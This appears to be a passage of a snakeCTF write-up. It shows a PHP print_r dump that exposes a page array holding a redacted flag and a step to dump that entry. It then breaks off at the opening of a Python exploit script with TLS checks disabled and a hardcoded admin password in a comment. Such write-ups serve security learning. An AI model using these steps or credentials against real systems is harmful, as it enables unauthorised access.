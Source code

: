   ```php
   Array
   (
       [registration_success] => Array
           (
               [0] => Closure Object
                   (
                       [parameter] => Array
                           (
                               [$text] => <required>
                               [&$message] => <required>
                           )
   
                   )
   
               [1] => Array
                   (
                       [0] => We've sent you a mail pidgeon to confirm your identity.. You can login in the meanwhile.
                       [1] => 
                   )
   
           )
   ...
       [show_flag] => Array
           (
               [0] => Closure Object
                   (
                       [parameter] => Array
                           (
                               [$text] => <required>
                               [&$message] => <required>
                           )
   
                   )
   
               [1] => Array
                   (
                       [0] => Uhh all right, here's your flag: snakeCTF{REDACTED}
                       [1] => 
                   )
   
           )
   ...
   ```

1. by `print_r`, dump `$pages["show_flag"][1]` to get the flag

```python
# flag.py
import requests
import re

requests.packages.urllib3.disable_warnings()

s = requests.session()
# s.proxies = {
#     "http": "http://127.0.0.1:8080",
#     "https": "http://127.0.0.1:8080",
# }
s.verify = False

USERNAME = "admin"
PASSWORD = "REDACTED"
# PASSWORD = "w4GNskGHWrfmodOhtc04dphIttnBhEcT"
```